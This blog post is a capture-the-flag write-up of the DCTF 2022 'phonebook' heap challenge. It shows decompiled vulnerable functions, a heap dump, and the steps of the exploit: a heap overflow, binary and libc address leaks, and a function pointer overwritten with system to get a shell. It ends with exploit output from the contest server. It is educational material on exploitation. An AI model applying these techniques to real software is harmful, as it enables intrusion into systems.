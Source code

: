 +++
title = "[DCTF 2022 - pwn] phonebook"
tags = ["pwn", "heap", "dctf", "nasm"]
date = "2022-04-17"
+++

## Intro

phonebook is a basic heap challenge I did during the dctf event. It's basically just a heap overflow wich allows us to overflow a function pointer with for example the address of system.

## The bug

```
$ ./phonebook
Choose an option: [1-5]
1. Store someone's information
2. Edit information
3. Call someone
4. Unfriend someone
5. Add the hidden_note
> 
```

We can create an entity and then initialize: a name, a numero and a function pointer.
```c
int __fastcall create(unsigned int a1)
{
  int result; // eax
  struct entity *s; // [rsp+18h] [rbp-8h]

  if ( people[a1] )
    return printf("Person with id %d already exists!", a1);
  s = malloc(0x20uLL);
  s->name = get_name();
  LODWORD(s->name_size) = strlen(s->name);
  printf("Phone number: ");
  fgets(s, 8, _bss_start); // phone number
  s->func = choose_relation();
  result = s;
  people[a1] = s;
  return result;
}
```
The bug lies `edit_name` function:

```c
unsigned __int64 __fastcall edit_name(int a1)
{
  int n; // [rsp+18h] [rbp-18h] BYREF
  int name_size; // [rsp+1Ch] [rbp-14h]
  struct entity *v4; // [rsp+20h] [rbp-10h]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  v4 = people[a1];
  name_size = v4->name_size;
  printf("Name length: ");
  __isoc99_scanf("%d", &n);
  fgets(v4->name, 2, _bss_start);
  if ( name_size != n )
  {
    free(v4->name);
    v4->name = malloc(n + 1);
  }
  printf("Name: ");
  fgets(v4->name, n, _bss_start);
  v4->name[n] = 0;
  return __readfsqword(0x28u) ^ v5;
}
```

We can give it a new lentgh and if that's not equal to the current size field it frees the current name pointer and allocates a new name pointer **without** updating the size field. Which means if we edit the name pointer with a smaller size, the name pointer will be smaller compared to the size field, then we just have to edit again the size field to make it equal to `v4->name_size` to trigger a heap overflow through the `v4->name` pointer.

## Leak libc

Now we're able to overflow through the name pointer we have to find how the leak the libc, a nice way would be to leak it by using free'd chunks in the unsortedbin. Or we can leak the `entity->func` function pointer which would give us a leak of the binary base address, then we would have to edit the name pointer with the got entry of `puts` to leak its address within the libc.

To do so we can create another entity right after the name pointer:
```
0x559b0d4d16b0	0x0000000000000000	0x0000000000000031	........1.......
0x559b0d4d16c0	0x3131313131313131	0x0000559b0c84f2a1	11111111.....U..
0x559b0d4d16d0	0x0000559b0d4d1800	0x00000000000000fe	..M..U..........
0x559b0d4d16e0	0x0000000000000000	0x0000000000000111	................
0x559b0d4d16f0	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1700	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1710	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1720	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1730	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1740	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1750	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1760	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1770	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1780	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d1790	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d17a0	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d17b0	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d17c0	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d17d0	0x4141414141414141	0x4141414141414141	AAAAAAAAAAAAAAAA
0x559b0d4d17e0	0x4141414141414141	0x0000414141414141	AAAAAAAAAAAAAA..
0x559b0d4d17f0	0x0000000000000000	0x0000000000000031	........1.......
0x559b0d4d1800	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x559b0d4d1810	0x6161616161616161	0x6161616161616161	aaaaaaaaaaaaaaaa
0x559b0d4d1820	0x0000000000000000	0x0000000000000031	........1.......
0x559b0d4d1830	0x3131313131313131	0x0000559b0c84f2a1	11111111.....U..
0x559b0d4d1840	0x0000559b0c851fa0	0x000000000000000a	.....U..........
0x559b0d4d1850	0x0000000000000000	0x000000000001f7b1	................	 <-- Top chunk
```

The ```edit_phone_number``` overwrites the null byte:
```c
__int64 __fastcall edit_phone_number(int a1)
{
  printf("Enter new phone number: ");
  return __isoc99_scanf("%8s", people[a1]);
}
```

To summarise:
- leak binary base address by overwriting the null byte (`edit_phone_number`) and then print the phone numer.
- leak libc base address by overwriting the name field of the second entity with the got entry of `puts`

## PROFIT

Then we just have to overwrite the function pointer with the address of `system` which takes as first argument a pointer to the entity structure of edit the phone number of the entity we wanna use because that's the first field of the structure which means we make it equivalent to a `system("/bin/sh")`.
```
00000000 entity          struc ; (sizeof=0x20, mappedto_8)
00000000 num             dq ?
00000008 func            dq ?
00000010 name            dq ?                    ; offset
00000018 name_size       dq ?
00000020 entity          ends
```

Then here we are:
```
$ python3 exploit.py REMOTE HOST=51.124.222.205 PORT=13380
[*] '/home/nasm/Documents/phonebook/chall/phonebook_patched_patched'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
[+] Opening connection to 51.124.222.205 on port 13380: Done
[*] binary: 0x558980fdd000
[*] libc @ 0x7fabfec57000
[*] system @ 0x7fabfeca92c0
[*] Switching to interactive mode
$ id
uid=1337 gid=1337 groups=1337
$ cat flag.txt
DCTF{C4n_1_g3t_y0ur_numb3r?}
```
